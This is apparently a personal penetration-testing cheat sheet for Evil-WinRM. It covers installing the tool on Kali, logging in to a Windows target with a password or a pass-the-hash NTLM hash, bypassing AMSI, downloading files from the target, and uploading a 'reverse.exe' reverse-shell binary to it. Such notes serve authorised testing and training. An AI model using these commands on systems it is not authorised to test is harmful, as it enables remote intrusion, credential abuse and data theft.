 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Steps

```bash - kali
sudo gem install winrm winrm-fs colorize stringio
```

```bash - kali
cd /opt && sudo git clone https://github.com/Hackplayers/evil-winrm.git && cd -
```

Login with either password or Hash.
```bash - kali
ruby /opt/evil-winrm/evil-winrm.rb -i $TARGET -u $USER -p '$PASSWORD'
```

```bash - kali
ruby /opt/evil-winrm/evil-winrm.rb -i $TARGET -u $USER -H '$HASH'
```

Bypass AMSI, used to run PowerShell scripts.

#### Downloading files - ==MUST USE FULL PATHS==
```powershell - windows
download C:\Troubleshooting\powershell-logs.csv /home/kali/Desktop/powershell-log
```

#### Uploading files - ==MUST USE FULL PATHS==
```powershell - windows
upload /home/kali/Desktop/reverse.exe C:\Troubleshooting\reverse.exe
```

SEE ALSO:
[[3._EvilWinRM]]

